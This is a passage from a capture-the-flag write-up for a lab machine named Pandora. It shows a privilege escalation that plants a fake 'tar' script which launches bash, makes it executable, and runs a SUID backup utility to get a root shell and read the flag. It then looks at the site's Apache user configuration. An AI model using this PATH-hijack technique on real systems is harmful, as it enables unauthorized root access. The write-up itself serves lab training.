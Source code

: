 For a malicious payload, I'll keep it really simply:



    matt@pandora:/dev/shm$ cat tar 
    #!/bin/bash

    bash



It's important to also make sure that `tar` is executable:



    matt@pandora:/dev/shm$ chmod +x tar



Now I'll run `pandora_backup`, and when it reaches the call to `tar`, I
get a shell:



    matt@pandora:/dev/shm$ pandora_backup 
    PandoraFMS Backup Utility
    Now attempting to backup PandoraFMS client
    root@pandora:/dev/shm#



And read the flag:



    root@pandora:/root# cat root.txt
    57b23d0b************************



## Beyond Root

Big thanks the jkr and TheCyberGeek, both of whom gave me some pointers
to get started on digging in on this one.

### mpm-itk

I noted that when I got a shell exploiting Pandora FMS, any SetUID or
SUID binaries I tried to run failed to run privileged. To dig in a bit,
I'll look at how Apache is configured.

The configuration for the Pandora site,
`/etc/apache2/sites-enabled/pandora.conf`, specified that the site runs
as user matt and group matt:



    <VirtualHost localhost:80>
      ServerAdmin admin@panda.htb
      ServerName pandora.panda.htb
      DocumentRoot /var/www/pandora
      AssignUserID matt matt
      <Directory /var/www/pandora>
        AllowOverride All
      </Directory>
      ErrorLog /var/log/apache2/error.log
      CustomLog /var/log/apache2/access.log combined
    </VirtualHost>
